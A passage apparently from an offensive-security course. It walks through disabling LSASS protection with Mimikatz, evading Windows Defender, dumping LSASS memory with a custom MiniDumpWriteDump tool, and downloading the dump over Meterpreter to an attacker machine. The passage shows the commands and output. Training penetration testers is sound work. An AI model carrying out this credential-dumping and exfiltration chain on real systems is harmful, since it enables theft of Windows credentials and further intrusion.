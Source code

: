 > Listing 34 - Turning off PPL with Invoke-Mimikatz

To invoke the !processprotect command with the desired arguments, we must use quotes on the command line for the -Command parameter, but the command itself must also be in quotes, which means we must escape the inner quotes with a back tick (\`) character.

When the command is executed, the driver successfully turns off LSASS protection. Just after that, Windows Defender detects the execution of Mimikatz and shuts down the PowerShell process.

While an antivirus alert has been generated, we have managed to turn off the PPL protection and we can now interact with LSASS. Instead of using Mimikatz for this, we can use our custom application that calls the Win32 _MiniDumpWriteDump_ API.

Our code will perform a memory dump of the LSASS process and write the dump to lsass.dmp in C:\Windows\tasks.

```
C:\Windows\system32> c:\inetpub\wwwroot\upload\dump.exe
c:\inetpub\wwwroot\upload\dump.exe
LSASS PID is: 564

C:\Windows\system32> dir c:\windows\tasks
dir c:\windows\tasks
 Volume in drive C has no label.
 Volume Serial Number is EEC0-882C

 Directory of c:\windows\tasks

06/26/2020  12:54 AM    <DIR>          .
06/26/2020  12:54 AM    <DIR>          ..
06/26/2020  12:54 AM        48,216,094 lsass.dmp
               1 File(s)     48,216,094 bytes
               2 Dir(s)   5,581,467,648 bytes free
```

> Listing 35 - Dumping the LSASS memory

To parse the dump file, we can use Invoke-Mimikatz on web01, but this will again trigger an antivirus alert. Instead, we are going to download the dump file and transfer it to the Windows Server 2019 test machine.

```
C:\Windows\system32> exit
exit

meterpreter > download C:\\Windows\\tasks\\lsass.dmp /var/www/html/lsass.dmp
[*] Downloading: C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 1.00 MiB of 45.98 MiB (2.17%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 2.00 MiB of 45.98 MiB (4.35%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
...
[*] Downloaded 44.00 MiB of 45.98 MiB (95.69%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 45.00 MiB of 45.98 MiB (97.86%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] Downloaded 45.98 MiB of 45.98 MiB (100.0%): C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
[*] download   : C:\Windows\tasks\lsass.dmp -> /var/www/html/lsass.dmp
```
